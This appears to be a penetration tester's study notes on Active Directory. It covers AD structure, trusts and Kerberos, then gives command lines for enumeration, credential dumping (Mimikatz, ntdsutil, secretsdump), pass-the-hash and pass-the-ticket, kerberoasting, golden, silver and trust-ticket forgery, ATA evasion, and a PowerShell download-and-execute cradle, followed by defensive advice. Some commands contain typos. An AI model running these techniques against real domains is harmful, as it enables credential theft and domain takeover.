






Active Directory¶
Quick References¶
- https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet
- Active Directory Kill Chain Attack & Defense
- Active Directory Penetration Testing Checklist: https://gbhackers.com/active-directory-penetration-testing-checklist/?fbclid=IwAR0sd1LYx9O-w8PCXuQDO7NZHDe8YnJC0aJllppl6Jr0nf9gGWZ8qoTaKc8

- Introduction
- Active Directory enables centralized, secure management of an entire network, which might span a building, a city, or multiple locations throughout the world.
- These antiquated AD designs only focused on the:
- Directory information tree
- Delegation model
- Group Policy Objects (GPOs) structure and accounts management
- Securing privileged access - Active Directory administrative tier model: https://docs.microsoft.com/en-us/windows-server/identity/securing-privileged-access/securing-privileged-access-reference-material
- Kerberos v5 used from Windows Server 2000+
- Naming conventions
- User Principal name:
winsaafman@scriptdotsh.local - DN (Distinguished Names) LDAP names:
CN=winsaafman,DC=corp,DC=scriptdotsh,DC=local- CN = Common name
- OU = Organisational Unit
- DC = Domain
- User Principal name:

- Components
- Schema - Defines objects and attributes
- Query and index mechanism - Ability to search and publish objects and properties
- Global Catalog - Contains info about every object in directory
- Replication Service - Distributes information across domain controller
- Structure
- Forest - Security boundary, which may contain multiple
domainsand each domain may contain multipleOUs - https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc759186(v%3dws.10)
- https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc759073(v%3dws.10)
- Organizational Units
- Container object
- Used to arrange other objects
- Easier to locate and manage
- Can delegate the authority to manage
- Can be nested in other organizational units
- Domains
- Container object
- Collection of administratively defined objects that share a common directory database, security policies, and trust relationships with other domains
- Each domain is an administrative boundary for objects.
- A single domain can span multiple physical locations or sites
- Domain Trees
- Collections of domains that are grouped together in hierarchical structures
- When you add a domain to a tree, it becomes a child of the tree root domain
- The domain to which a child domain is attached is called the parent domain.
- A child domain might in turn have its own child domain.
- The name of a child domain is combined with the name of its parent domain to form its own unique Domain Name System (DNS) name such as Corp.nwtraders.msft.
- .:. a tree has a contiguous namespace.
- Forests
- Instance of Active Directory
- Each forest acts as a top-level container in that it houses all domain containers for that particular Active Directory instance
- A forest can contain one or more domain container objects, all of which share a common logical structure, global catalog, directory schema, and directory configuration, as well as automatic two-way transitive trust relationships.
- The first domain in the forest is called the
forest root domain. - The name of that domain refers to the forest, such as Nwtraders.msft.
- By default, information in Active Directory is shared only within the forest.
- .:. the forest is a security boundary for the information that is contained in that instance of Active Directory
- Site Objects
- Leaf and container objects
- Topmost object in the hierarchy of objects that are used to manage and implement Active Directory replication
- Stores the hierarchy of objects that are used by the
Knowledge Consistency Checker (KCC)to effect the replication topology - Some of the objects located in:
NTDS Site Settings objects,subnet objects,connection objects,server objects, andsite objects(one site object for each site in the forest) - Hierarchy is displayed as the contents of the Sites container, which is a child of the Configuration container
- Forest - Security boundary, which may contain multiple
- SYSVOL
- Ref: https://social.technet.microsoft.com/wiki/contents/articles/24160.active-directory-back-to-basics-sysvol.aspx
- Folder which resides on each and every domain controller within the domain.
- Contains the domains public files that need to be accessed by clients and kept synchronised between domain controllers.
- Default location is
C:\Windows\SYSVOL - The SYSVOL folder can be accessed through:
- share
\\domainname.com\sysvol - or the local share name on the server
\\servername\sysvol.
- share
- Uses DFS to share the relevant folders to users and clients. - Distributed File System. Client and server services that allow servers to organize distributed file shares into a distributed file system.
- File Replication Service - FRS is a multi-master, multi-threaded replication technology.
- Introduced in Windows 2000 to replace the previous LMREPL technology used in NT3.x and 4 days
- Ageing Cache - Detects the change by monitoring the NTFS USN journal (stored in NTFRS database) (every 3 seconds)
- Replaced by DFSR (Distributed File System Replication) in Windows 2008 or higher
- Auto-healing functions in place to remedy some of the issues that FRS
- Instead of replicating entire files we only replicate the chunks of data that have changed
- Based on MD4 hash of the file
The log contains information about the file and the time it was changed, this is then used to build its change message. To ensure the file and all it’s attributes (i.e. permissions) are kept intact FRS calls the backup [API](http://social.technet.microsoft.com/wiki/contents/articles/20580.wiki-glossary-of-technology-acronyms.aspx#API)which uses [VSS](http://social.technet.microsoft.com/wiki/contents/articles/20580.wiki-glossary-of-technology-acronyms.aspx#VSS) technology to take a snapshot of the file and it’s attributes. This backup file is then compressed and stored in the staging area folder. At this point the outbound log is updated (again this is actually a table within the FRS database). This contains information about all the changes for a specified replication set. If in step 1 a file was deleted rather than created then we don’t create a staging file, but the outbound log reflects the deletion. FRS on DC1 then sends a change notification to its replication partner DC2. DC2 adds the information about the change into its inbound log and accepts the change then sends a change acknowledgment back to DC1. DC2 then copies the file from DC1 into its staging area. It then writes an entry to its outbound log to allow other partners to pickup the change. DC2 then calls the backup API to restore the file from the staging area into the SYSVOL folder. So there you have it, FRS replication. There is a very detailed and in-depth reference guide on TechNet[here](http://technet.microsoft.com/en-us/library/cc758169(v=WS.10).aspx) for further reference.
- Detect Firewall Blocking AD
- https://blogs.msmvps.com/acefekay/2011/11/01/active-directory-firewall-ports-let-s-try-to-make-this-simple/
- PortQryUI - http://www.microsoft.com/download/en/details.aspx?id=24009
- Run the “Domains & Trusts” option between DCs, or between DCs and any machine
- “NOTLISTENING,” 0x00000001, and 0x00000002, that means there is a port block
- Can ignore UDP 389 and UDP 88 messages
- TCP 42 errors, that just means WINS is not running on the target server
AD Trust Types¶

| Trust Type | Property | Trust Direction | Auth. | Details |
|---|---|---|---|---|
| Tree-Root | Transitive | Two-way | Kerberos V5 or NTLM | Created automatically when a new Tree is added to a forest. |
| Parent-Child | Transitive | Two-way | Kerberos V5 or NTLM | Created automatically when a child domain is added. |
| Shortcut | Transitive | One-way or Two-way | Kerberos V5 or NTLM | Created Manually. Used in a forest to shorten the trust path to improve authentication times. |
| Forest | Transitive | One-way or Two-way | Kerberos V5 or NTLM | Created Manually. Used to share resources between AD DS forests. |
Kerberos Process Across Trust Boundaries¶
Ref: https://scriptdotsh.com/wp-content/uploads/2018/10/trust2.png

A client from Domain 1 wants to access the server located in Domain 2.
- A client from Domain1 requests a TGT from the DC1.
- DC1 responds back with the TGT (encrypted with krbtgt hash)
- Client shows the TGT and requests a TGS for accessing the server in Domain2.
- As DC1 doesn’t find the server in current domain and realizes that the TGS needs to be issued by the DC2 (of Domain2) because the server is located in the Domain2. So it responds back to client with the Inter-realm TGT.
- Client shows the TGT encrypted with Inter-Realm trust key to DC2 in the Domain2 and requests TGS to access the server.
- DC2 sends back the TGS for Server encrypted with server’s account hash.
- Client presents the TGS (encrypted with server’s account hash) to the server for access.
Scope of Authentication
- Forest-wide authentication - Users from the outside forest have the same level of access to resources in the local forest as users who belong to the local forest.
- Selective authentication - You need to manually assign permissions on each computer in the domain as well as the resources to which you want users in the second forest to have access (by editing ACE (Access control entry)).
Setup¶
Install-windowsfeature AD-domain-services
Install-WindowsFeature RSAT-ADDS
Import-Module ADDSDeployment
Install-ADDSForest -CreateDnsDelegation:$false ` -DatabasePath "C:\Windows\NTDS" ` -DomainMode "Win2012R2" ` -DomainName "server1.hacklab.local" ` -DomainNetbiosName "server1" ` -ForestMode "Win2012R2" ` -InstallDns:$true ` -LogPath "C:\Windows\NTDS" ` -NoRebootOnCompletion:$false ` -SysvolPath "C:\Windows\SYSVOL" ` -Force:$true
- Download VMs: https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/
- SysPrep When and How: https://thesolving.com/server-room/when-and-how-to-use-sysprep/
- Add user
net user user1 Passw0rd! /ADD /DOMAINNew-ADUser -Name "Winsaaf Man" -DisplayName "Winsaaf Man" -SamAccountName “winsaaf.man” -UserPrincipalName “winsaaf.man@scriptdotsh.local” -GivenName “winsaaf” -Surname "man" -AccountPassword (Read-host -AsSecureString “Enter Password”) -Enabled $true -server scriptdotsh.local- More options:
-ChangePasswordAtLogon $false-PasswordNeverExpires $true
- More options:
- Bulk addition: https://gallery.technet.microsoft.com/office/Create-Contoso-Users-in-3e2f38f2/view/Discussions
- View users:
net users /domain - View group:
net group /domain "Domain Admins"
Tools¶
Mimikatz¶
- Utilises the Directory Replication Service (DRS) to retrieve the password hashes from the NTDS.DIT file
lsadump::dcsync /domain:pentestlab.local /all /csv lsadump::dcsync /domain:pentestlab.local /user:test - Executing Mimikatz directly in the domain controller password hashes can be dumped via the lsass.exe process
privilege::debug lsadump::lsa /inject
CrackMapExec¶
- Automate assessing the security of large Active Directory networks
crackmapexec smb <target(s)> -u username -H LMHASH:NTHASH crackmapexec smb <target(s)> -u username -H NTHASH
ldapsearch¶
- Query the Domain Controller for Active Directory
- UserAccountControl attributes of active accounts
- Other specific configurations
- Possible UserAccountControl values: https://support.microsoft.com/en-gb/help/305144/how-to-use-the-useraccountcontrol-flags-to-manipulate-user-account-pro
- Active users (2 == disabled account status)
ldapsearch -x -h $ip -p 389 -D 'SVC_TGS' -w $password -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))" samaccountname
ldapdomaindump¶
ldapdomaindump -u example\example 10.10.10.10
Impacket¶
- GetADUsers.py - Enumerate domain user accounts
GetADUsers.py -all active.htb/svc_tgs -dc-ip $ip
Enumeration¶
- Tips:
- Run AD enumerations on each box you get access to.
- Tools
- Automating AD Enumeration (Bloodhound, PowerUp, Responder, CrackMapExec): https://medium.com/bugbountywriteup/automating-ad-enumeration-with-frameworks-f8c7449563be
- Scan:
pingcastle.exe --healthcheck --server <DOMAIN_CONTROLLER_IP> --user <USERNAME> --password <PASSWORD> --advanced-live --nullsession
Using PowerShell and Built-ins¶
- Works in Constrained Mode as well.
- https://github.com/winsaafman/Scriptdotsh-ActiveDirectory/raw/master/Microsoft.ActiveDirectory.Management.dll
C:\Windows\Microsoft.NET\assembly\GAC_64\Microsoft.ActiveDirectory.Management\Microsoft.ActiveDirectory.Management.dll
Import-Module .\Microsoft.ActiveDirectory.Management.dll
- Domain:
Get-ADDomain - SID:
Get-DomainSID=Get-ADDomain.DomainSID.Value - Domain Controller:
GET-ADDomainController - Users:
Get-ADUser -Filter *Get-ADUser -Filter * -Properties *Get-ADUser -Server pc1.powershell.localGet-ADUser -Identity labuser
- Groups :
Get-ADGroup -Filter *Get-ADGroup -Filter * | Select NameGet-ADGroup -Filter {Name -like "*admin*"} | Select Name
- Filter Groups for User:
Get-ADGroup -Filter {Name -like "*admin*"} | select name, GroupScope - Group Members:
Get-ADGroupMember -Identity "Domain Admins" -RecursiveGet-AdPrincipalGroupMembership -Identity "labuser"
- Computers:
Get-AdComputer -Filter * -Properties * - ACL for AD objects: (without resolving GUIDs)
(Get-Acl 'AD:\CN=labuser,CN=Users,DC=example,DC=powershell,DC=local').Access
- Trust
Get-AdTrust -Filter *Get-AdTrust -Filter * -Identify example.powershell.local
- Forest:
Get-ADForestGet-ADForest -Identify powershell.local- Get all domains in current forest:
(Get-ADForest).Domains
- Forest Trust
Get-ADTrust -Filter 'msDS-TrustForestTrustInfo -ne "$null"'
PowerView¶
./PowerView.ps1
Get-NetDomain
- Domain information: Get-NetDomain -Domain powershell.local (info of domains where there is a trust relationship)
- Domain Controller: Get-NetDomainController
- Users:
- Get-NetUser
- Get-NetUser -Domain powershell.local
- Get-NetUser -UserName labuser
- Groups:
- Get-NetGroup
- Get-NetGroup *admin*
- Group Members:
- Get-NetGroupMembers -GroupName "Domain Admins"
- Get-NetGroup -UserName "labuser"
- Check if current user context has local-admin access to hosts in the domain: Find-LocalAdminAccess -Verbose
- Enumerate members of local-admin groups across all machines: Invoke-EnumerateLocalAdmin -Verbose
- 2016+ responded only by boxes where current user have local-admin access
- Computers: Get-NetComputer -FullData
- Sessions:
- Get-NetSession
- List sessions on a computer: Get-NetSession -ComputerName pc1
- Find computers where domain admin is logged in and current user has access: Invoke-UserHunter -CheckAccess
- Based on list of machines from DC
- List of sessions
- Logged on users from each machine
- Shares (?)
- ACL for AD objects:
- Get-ObjectAcl
- Get-ObjectAcl -SamAccountName labuser -ResolveGUIDs
- Get-ObjectACL -AdSprefix 'CN=Administrator,CN=Users' -Verbose
- Look for all interesting ACL entries: Invoke-ACLScanner -ResolveGUIDs (write modify)
- Filter using IdentifyReference to identify what current user has interesting access to
- Trust
- Get-NetDomainTrust
- Get-NetDomainTrust -Domain example.powershell.local
- Forest:
- Get-NetForest
- Get-NetForest -Forest powershell.local
- Get all domains in current forest:
- Get-NetForestDomain
- Get-NetForestDomain -Forest powershell.local
- Forest Trust
- Get-NetForestTrust
- Get-NetForestTrust -Domain example.local
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1'); Get-NetDomain"
Snapshot for Offline Analysis¶
- Using https://docs.microsoft.com/en-us/sysinternals/downloads/adexplorer
- Download: https://live.sysinternals.com/
- UNC path:
\\live.sysinternals.com\tools
Bloodhound¶
- Finds groups and group members of each group.
- Gets Domain computers in the domain.
- Obtain local admins for each computer.
- List Active sessions on each computer.
- And then creates relationships between all these findings.
Attack Patterns¶

Dumping AD Credentials¶
- secretsdump - Need domain admin credentials:
secretsdump.py -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER> - NTDS.dit
- AD data stored in:
%SYSTEMROOT%\NTDS\ntds.dit- Cannot be copied directly to another location
- Can be extracted using
- Domain Controller Replication Services
- Native Windows Binaries
- WMI
- Backups / External Storage for DC
- VMWare / HyperV for virtual DCs
- VMWare admin can call virtual DC within VMWare
- Clone a DC and copy the storage file
- No events triggered
- NTDSUtil
- DC Promo has to copy from another DC
- But if NTDSUtil was used to create an IMF (Install From Media), it makes a copy of NTDS.dit
- Can use NTDSUtil to create an IMF or look for IMF in network
- Extraction techniques and tools: https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/ - Dumping Domain Password Hashes
- Steps:
- cmd.exe as Administrator
- ntdsutil
snapshot activate instance NTDS create mount <UUID> - copy NTDS.dit (located in Windows\NTDS\NTDS.dit by default)
- ntdsutil
unmount <UUID> delete <UUID> quit quitreg.exe save HKLM\SYSTEM <path_where_you_want_to_save_it>secretsdump.py -system <path_to_system_hive> -ntds <path_to_ntds.dit> LOCAL
- AD data stored in:
- Dumping Credentials on DC - Mimikatz
- Take memory dump of LSASS process using task manager and use Mimikatz offline
- Run Mimikatz on DC
- Invoke-Mimikatz on DC via PS remoting
- Dumping Credentials on Multiple Machines - Mimikatz
Invoke-Mimikatz -DumpCreds -ComputerName @("instance1", "instance2")- Uses PowerShell remoting
- Hence need creds / administrative access to remote computers
- If remoting not enabled:
- If WIM enabled
- WIN32 Proess - Class Create Method (TODO:)
- WIN32 Service - Execute Method (TODO:)
- If WIM enabled
Pass the Hash¶

- In typical scenario:
- User type the password
- LSASS hash the password (LM, NTLM) and send it to service for authentication
- In attack scenario:
- Attacker pass the hash (LM, NTML) itself to LSASS which is sent to service
- Preventions
- Disable NTML hashes
- "Protected Users" group
- Do not leave lot of NTLM authentication footprint in eventless
Over Pass the Hash / Pass the Key¶
 > Ref:
> Ref: {kind=link}
- If NTLM hash is available, encrypt timestamp with hash and sent it to KDC in AS-REQ to get a TGT
- Keys are in:
- Client LSASS memory
- Prevented by "Protected Users" group
- Active Directory
- NTDS.dit and SYSTEM hive
- Offline
- [Tool] NTDSXtract
python DSUser.py ntds.dit.export/datatable.4 ntds.dit.export/link_table.7 ./work -name Administrator --syshive SYSTEM --supplcreds --passwordhashes --lmoutfile ./lm --ntoutfile ./nt --pwdformat johnprivilege::debug sekurlsa::ekeys
- Online
privilege::debug lsadump::lsa /inject /name:Administrator
- Client LSASS memory
- Keys are in:
- DES
- RC4 - Non domain salted NTML hash
- AES128 AES256 keys (NT6+)
- Use PBKDF2
- Salted
- 4096 iterations
- Cracking is difficult
- Over pass the hash
privilege::debug sekurlsa::pth /user:Administrator /domain:<DomainName> /ntlm:<Hash>
- References
- Mimikatz
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:. /ntlm:<ntlmhash> /run:powershell.exe"'
Pass the Ticket¶


- Inject the TGT in to the LSASS Kerberos Provider
- Do not ask the KDC for the TGT, instead ask the KDC to give us a TGS
- Can also inject TGS in to the LSASS Kerberos Provider
- Exporting from memory:
- API only allow exporting current user's tickets (your tickets)
- TGT: AllowTgtSessionKey reg-key must be set
- TGS: No restrictions
- http://msdn.microsoft.com/library/windows/desktop/aa378099.aspx
LsaCallAuthenticationPackage/KerbRetrieveEncodedTicketMessage
LsaCallAuthenticationPackage/KerbSubmitTicketMessage
mimikatz > kerberos::list [/export]
mimikatz > kerberos::ptt ticket
- For all users in LSASS memory:
privilege::debug
sekurlsa::tickets export
kerberos:ptt <ticket.kirbi>
Token Manipulation¶
Invoke-TokenManipulation/Incognitofor impersonation- Admin privileges are required to adjust token prilileges
- Can also use
Mimikatz - New process with token of given user:
Invoke-TokenManipulation -ImpresonateUser -Username "domain/user" - New process with token of another process:
Invoke-TokenManupulation -CreateProcess "C:\Windows\system32\WindowsPowerShell\v1.0\PowerShell.exe" -ProcessId 500"
DCSyc¶
- Used to sync AD to Azure
- Can be used to get credentials from AD
- If
reverse encryptionis enabled for an account, clear text password can be obtained.
- If
- Needs Administrator or Domain Controller rights
- By default, no logs since this is done through official RPC (remotely)
- Implemented by: Mimikatz (lsadump:dcsync), Impacket, DSInternals

- DCSync is easy to detected
NRPC (NetLogon)¶
- When you have domain admin account for one DC, can as another DC to send all NTLM hashed of computer accounts and domain controller accounts.
- Can be used to create silver tickets.
- If you have rights flip some bytes of the account, can make a normal user account a workstation account. Can be used to get user accounts using this.
Microsoft Windows AD Kerberos Tickets¶
- Gather tickets
GetUserSPNs.py -request (HOST.DOMAIN)/(VALID SMB USER):(USER PASSWORD) - Crack
-a 0 - Straight cracking mode -m 13100 - Hashtype 13100 - which is Kerberos 5 TGS-REP etype 23 the kerberos.ticket file -w 3 - Suggested example "workload" setting for Hashcat .\hashcat64.exe -m 13100 -a 0 'C:\Users\weaknet\Desktop\Portfolio\VMWare Shared\kerberos.tick et' -w 3 'C:\Users\weaknet\Desktop\Portfolio\VMWare Shared\rockyou.txt' hashcat (v5.1.0) starting...
Privilege Escalation Across Domains¶
- Child to forest root
- Domain in same forest gave implicit two way trust with forest root
- There is a trust key bwterrn parent and child domains
Inter-realm TGT
- Approaches
- Trust tickets
Inter-realm TGT(sent along with request for TGS) to other DC is validated by- Decrypting
Inter-realm TGTwithTrust Key
- Decrypting
- If you have trust-key, you can forge trust-tickets
- On child domain, to get trust-key:
Invoke-Mimikatz -Command '"lsadump::trust /patch"' - FOrge inter-realm TGT:
Invoke-Mimikatz -Command '"Kerberos::golden /domain:example.powershell.local /sid<sid> /sids:<sid-history-of-enterprise-admin> /rc4:<rc4> /user:Administrator /service:kerbtgt /target:powershell.local /ticket:trust_tkt.kirbi"'
- On child domain, to get trust-key:
- Get TGS for a service using forged trust ticket:
asktgs.exe trust_tht.kirbi CIFS/dc.parent.powershell.local
- Access
kirbikator.exe lsa example.kirbils \\dc.parent.powershell.local\c$
- Krbtgt hash
- Similar to Golden Ticket
- Once you have kerbtgt hash of current domain, use SID history to forge a TGT:
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'Invoke-Mimikatz -Command '"Kerberos::golden /user:Adminsitator /domain:example.powershell.local /sid<sid> /krbtgt:<hash> /sids:<sid-history-of-enterprise-admin> /ticket:krb_tkt.kirbi"'
- On a machine in the other domain:
Invoke-Mimikatz -Command '"kerberos:ppt krb_tkt.kirbi"'
- Trust tickets
Persistence¶
- Golden Ticket
- A valud TGT signed and encrypted by the hash of krbtgt account
- User account validation is not done by DC (KDC service), until TGT is older than 20 minutes
- Can even delete / revoke accounts
- Krbtgt user hash could be used to impersonate any user with any privileges from even from a non-domain machine
- Single passwoed change has no effect on this attack (need two change operations)
- Why persistance technique?
- Once you have domain-admin, use it to extract all credentials
- Forge a TGT to get persistance
- Execute mimikatz on DC:
Invoke-Mimikatz -Command '"lsadumo::lsa /patch"' -Computername ops-dc- Patch the running
lsaprocess (execute code on DC)
- Patch the running
- Use DCSync to get krbtgt hash (when you have DA privilages for the domain):
Invoke-Mimikatz -Command '"lsadump::dcsync /user:example\krbtgt"'- Without running code on DC
- On any machine:
Invoke-Mimikatz -Command '"kerberos:golden /User:Administrator /domain:example.powershell.local /sid:<domain_sid> kerbtgt:<hash> /id:500 /group:513 /ppt"'
- Silver Ticket
- A valid TGS is encrypted and signed by the NTLM hash of serive account
- Less noisy. No communication with DC is required.
- Service rarely check PAC (Privileged Attribute Certificate)
- Services will allow access only yo the services themselves
- Allows access to a paticular service on a paticular machine
Invoke-Mimikatz -Command '"kerberos:golden /domain:example.powershell.local /sid:<domain_sid> kerbtgt:<hash> /target:dc.example.powershell.local /service:cifs /rc4:<rc4_of_service_account_for_cifs/machine_account> /id:500 /user:Administrator /ppt"'
Defense¶
- Do not allow or limit login of DAs to any other machines (other than DC)
- If it's necessary, there shouldn't be any other administrators on that machine
- Do not run services with DA account
- Monitor event ID
- 4624: Account logon
- 4634: Account logoff
- 4672: Admin logon
- 4769 - A kerberos ticket was requested
- Kerberos Mitigations
- Service account passwords should be hard to guess
- Use managed service accounts (auto change password and deligated SPN management)
- Detect kerberost:
- 4769 and
- Encryption type is RC4
- Service account for kerberos ticket request is a service account
- Securing Trust Tickets
- SID filtering
- Avoid SID history abuse (DA from child to EA on forest root)
- Enabled by default on all inter-forest-trusts.
- Intra-forest trusts are assumed to be secured by default (forest is the security boundary)
- SID filtering can break applications and user access (hence, usually disabled)
- Selective Authentication
- Users between the trusts will not be automatically authenticated.
- Individual access to domains and servers in the trusting domain/forest should be given
- SID filtering
- ATA for Detecting
- Recon: Account enum. Netsession enum
- Compromised Credentials Attacks: Bruteforce, High privilege account/service account exposed in clear text, Honey token, usual protocol (NTLM and Kerberos)
- Credential/Hash/Ticket Replay attacks
- Bypassing ATA
- Avoid talking to the DC as long as possible
- Make appear the traffic we generate as attacker normal
- Example:
- Use AES keys when downgrades are detected
- Example:
- Use unique and strong local admin account passwords
- Use Microsoft LAPS (Local Administrator Password Solution) to automate local admin password changes
- Centralized storage of passwords in AD with periodic randomizing where read permissions can be access controlled
- Storage in clear text, transmission is encrypted
- https://blog.netspi.com/running-laps-around-cleartext-passwords/
- Use Privileged Adminsitratove Workstations (PAWs)
- Hardened workstation for performing sensitive tasks like domain administration and cloud infrastructure access
- Stratergies:
- Separate privilege and hardware for admin tasks
- Admin Jump servers to be accessed only from PAW
- Having a VM on a PAW for user tasks
- Administrative Tier Model
